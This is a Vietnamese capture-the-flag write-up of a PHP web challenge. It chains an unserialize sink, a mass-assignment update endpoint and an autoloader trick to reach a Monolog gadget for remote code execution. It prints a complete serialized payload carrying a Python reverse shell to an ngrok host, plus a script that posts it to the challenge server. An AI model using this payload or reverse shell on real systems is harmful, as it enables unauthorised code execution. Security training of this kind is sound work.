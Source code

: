 Vào được admin, ta đọc code bên backend sẽ để ý thấy sink `unserialize`, thấy có điềm rồi.

```php
$this->access   = unserialize($_SESSION['access'] ?? '');
```

Để ý ta có thể update password, tuy nhiên endpoint này ta có thể lợi dụng để update bất cứ trường nào chứ không riêng password vì đoạn JSON ta truyền vào được pass hết vào `update()`:
```php
$this->database->update('users', $data['_id'], $data);
```

Vậy idea sẽ là update password với một đoạn PHP payload được serialized để RCE đọc flag, tuy nhiên là source code chính của web ta sẽ không tìm thấy gadget nào, ta sẽ bắt đầu tìm kiếm gadget ở các package mà web sử dụng.

Qua tìm kiếm ta sẽ có được 2 gadget tiềm năng trong PHPGGC là `Guzzle/FW1` và `Monolog/RCE7`. Tuy nhiên khi thử thì `Guzzle/FW1` sẽ fail vì ta không có quyền ghi file, test `Monolog/RCE7` thì thấy nó hoạt động tốt, nhưng vấn đề là bây giờ bên `backend` và `frontend` đều có autoload riêng, làm sao để ta reach được gadget `monolog` bên frontend đây?

Để ý hàm `spl_autoload_register`, đây là hàm được chạy tự động khi ta cố gắng load một class, phần code sau cho thấy hàm sẽ cố gắng include file với tên của class đang load nếu như nó tồn tại:
```php 
if (file_exists($filename)) {
    require $filename;
}
```
Vậy nếu ta load một class là `www_frontend_vendor_autoload` thì file autoload.php của frontend sẽ được gọi và ta có thể load được class của `monolog`.

Vấn đề tiếp theo là làm sao vừa include file autoload, vừa load class của monolog. Dựa theo ý tưởng là bài viết [này](https://www.ambionics.io/blog/vbulletin-unserializable-but-unreachable) thì ta có thể dùng một array, do khi include được file autoload thì lại không có class nào tên `www_frontend_vendor_autoload` cả nên nó sẽ trả về một `__PHP_Incomplete_Class`, nhưng mấu chốt là nó không bị crash, do đó tại index tiếp theo của array ta có thể load tiếp class từ `monolog` và RCE

```!
a:2:{i:0;O:28:"www_frontend_vendor_autoload":0:{}i:1;O:37:"Monolog\Handler\FingersCrossedHandler":4:{s:16:"\u0000*\u0000passthruLevel";i:0;s:10:"\u0000*\u0000handler";r:3;s:9:"\u0000*\u0000buffer";a:1:{i:0;a:2:{i:0;s:209:"python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("0.tcp.ap.ngrok.io",12104));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'";s:5:"level";i:0;}}s:13:"*processors";a:2:{i:0;s:3:"pos";i:1;s:6:"system";}}}
```

Payload này mình craft tay, chỉ có monolog là gen từ phpggc :V để ý phần `r:3`, đoạn này ban đầu nó là `r:1` nhưng khi đưa vào array thì nó thành 3 để point vào object hiện tại là monolog

Store payload kia trong file rồi viết một đoạn script gửi lên:
```python
import requests

url = "http://138.68.162.218:31396/admin/api/users/update"
with open("./expl.txt") as f:
	r = requests.post(url, json={
		"_id": 1,
		"username": "admin",
		"password": "aaa",
		"access": f.read()
	}, headers={"Cookie":"PHPSESSID=s84akbvbta03voi5mcee8aop1o"})
	print(r.text)
```

Gửi xong ta logout ra và login lại để trigger đoạn `unserialize`

```
HTB{l00kup_4r7if4c75_4nd_4u70lo4d_g4dg37s}
```
